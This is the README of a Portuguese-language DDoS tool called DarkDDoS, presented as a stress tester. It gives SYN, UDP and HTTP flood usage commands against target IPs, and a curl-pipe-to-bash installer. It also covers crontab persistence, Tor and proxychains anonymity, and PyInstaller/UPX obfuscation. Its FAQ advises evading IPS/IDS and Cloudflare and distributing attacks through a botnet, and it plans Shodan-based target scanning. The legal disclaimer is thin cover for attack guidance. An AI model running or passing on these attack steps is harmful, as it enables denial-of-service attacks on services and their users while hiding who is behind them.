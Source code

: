# DarkDDoS 🧨  
**Ferramenta Avançada de Teste de Stress de Rede com Múltiplos Vetores de Ataque**  

![DarkDDoS Demo](https://img.shields.io/badge/Version-2.0-red) 
![Python](https://img.shields.io/badge/Python-3.10%2B-blue)

## 📌 Índice
- [Visão Geral](#-visão-geral)
- [Features](#-features)
- [Métodos de Ataque](#-métodos-de-ataque)
- [Instalação](#-instalação)
- [Uso Avançado](#-uso-avançado)
- [Configuração](#-configuração)
- [Precauções de Segurança](#-precauções-de-segurança)
- [Legal](#-legal)
- [FAQ](#-faq)
- [Contribuição](#-contribuição)
- [TODO](#-todo)
- [Licença](#-licença)

## 🌐 Visão Geral
O DarkDDoS é uma ferramenta de teste de resistência de rede projetada para simular diversos tipos de ataques DDoS. Desenvolvido em Python com multi-threading, permite avaliar a capacidade de infraestruturas em lidar com tráfego malicioso em alta escala.

## 🚀 Features
### **Core Features**
- 3 Métodos Principais:
  - **SYN Flood** (spoofing de IPs aleatórios)
  - **UDP Flood** (pacotes de 1490 bytes com payload randômico)
  - **HTTP Flood** (requests GET paralelos com user-agent rotativo)
- Performance:
  - Até 1,000+ threads simultâneas
  - 50k+ pacotes/segundo (dependendo do hardware)
- Customização:
  - Duração programável (segundos)
  - Intensidade ajustável via número de threads

### **Advanced Features**
- Stealth Mode:
  - Rotação automática de user-agents
  - Spoofing de MAC address integrado (Linux/Android)
- Evasão Básica:
  - Padrão de tráfego aleatório
  - Intervalos de envio não determinísticos
- Logging:
  - Estatísticas em tempo real (pacotes enviados/seg)

## 💣 Métodos de Ataque
| Método   | Camada OSI | Eficácia | Detectabilidade |
|----------|------------|----------|-----------------|
| SYN      | 4 (Transporte) | Alta     | Média           |
| UDP      | 4 (Transporte) | Moderada | Baixa           |
| HTTP     | 7 (Aplicação)  | Variável | Alta            |

## ⚙️ Instalação
### Requisitos
- Python 3.10+
- Scapy (para spoofing SYN/UDP)
- `sudo` (opcional para raw sockets)

```bash
# Instalação Automática (Linux/Android Termux):
curl -sSL https://raw.githubusercontent.com/MIGUEL-XZ/DarkDDoS/main/installer.sh | bash

# Instalação Manual:
git clone https://github.com/MIGUEL-XZ/DarkDDoS.git
cd DarkDDoS
pip3 install -r requirements.txt


## 🔥 Uso Avançado
### Parâmetros e Opções
```bash
python3 DarkDDoS.py \
  -t <TARGET_IP> \
  -p <TARGET_PORT> \
  -m [syn|udp|http] \
  -th <THREADS> \
  -d <DURATION_SEC> \
  --proxies-file proxies.txt  # HTTP apenas
```

### Exemplos Práticos
1. **Ataque Rápido (60s):**
   ```bash
   python3 DarkDDoS.py -t 192.168.1.100 -p 443 -m syn -th 500
   ```

2. **Ataque Furtivo (HTTP):**
   ```bash
   python3 DarkDDoS.py -t exemplo.com -p 80 -m http --proxies-file tor_proxies.txt -th 200 -d 300
   ```

3. **Ataque Massivo (UDP):**
   ```bash
   sudo python3 DarkDDoS.py -t 10.0.0.5 -p 53 -m udp -th 1000 -d 600
   ```

## 🔧 Configuração
### **Arquivo de Proxies**
```txt
# proxies.txt (formato: IP:PORT)
45.155.68.129:3128
203.189.137.181:8080
...
```

### **Persistência (Linux)**
```bash
# Adicionar ao crontab para auto-inicialização:
(crontab -l 2>/dev/null; echo "@reboot cd /path/to/DarkDDoS && python3 DarkDDoS.py -t...") | crontab -
```

### **VPN/Anonimato**
```bash
# Usar com Tor:
sudo apt install tor
sudo service tor start
proxychains python3 DarkDDoS.py -t ...
```

## 🛡️ Precauções de Segurança
- **Isolamento de Rede:** Execute em máquina virtual/VPS descartável
- **Obfuscação:** 
  ```bash
  # Recompilar com PyInstaller + UPX:
  pyinstaller --onefile --strip --key $(openssl rand -hex 16) DarkDDoS.py
  upx --ultra-brute dist/DarkDDoS
  ```
- **Monitoramento:** Use ferramentas como `iftop` ou `nload` para análise de tráfego

## ⚖️ Legal
**AVISO LEGAL EXPLÍCITO**  
- O uso não autorizado desta ferramenta viola:
  - Lei de Crimes Cibernéticos (Art. 154-A, CP)
  - DMCA Section 1201 (EUA)
  - Diretiva UE 2013/40  
- O desenvolvedor não se responsabiliza por uso ilegal.  
- **Recomendado apenas para:**  
  - Testes em ambiente controlado  
  - Redes próprias com autorização formal  

## ❓ FAQ
**Q:** Como evitar bloqueio por IPS/IDS?  
**R:** Use `--proxies-file` com listas de IPs rotativos e combine com SYN spoofing.

**Q:** Por que meu ataque HTTP é bloqueado?  
**R:** Servidores modernos (Cloudflare, AWS) detectam padrões simples. Use técnicas de rate-limiting evasion.

**Q:** Como aumentar o poder de ataque?  
**R:** Distribua o ataque via botnet usando `-th 5000` e múltiplos nós.

## 🤝 Contribuição
1. Fork o repositório
2. Crie uma branch: `git checkout -b feature/nova-func`
3. Commit: `git commit -am 'Adicionei X feature'`
4. Push: `git push origin feature/nova-func`
5. Abra um Pull Request

## 📌 TODO
- [X] Suporte básico a proxies
- [ ] Módulo ICMP Flood
- [ ] Modo Slowloris (Layer 7)
- [ ] Integração com Shodan API (auto-scan de alvos)
- [ ] Painel de controle web (Flask/Django)

## 📜 Licença
Este projeto está sob licença GPL-3.0. Veja o arquivo [LICENSE](LICENSE) para detalhes.

---

**⚠️ Nota Final:** Esta ferramenta é para fins educacionais. Mantenha-se dentro da legalidade e obtenha permissão por escrito antes de qualquer teste.  
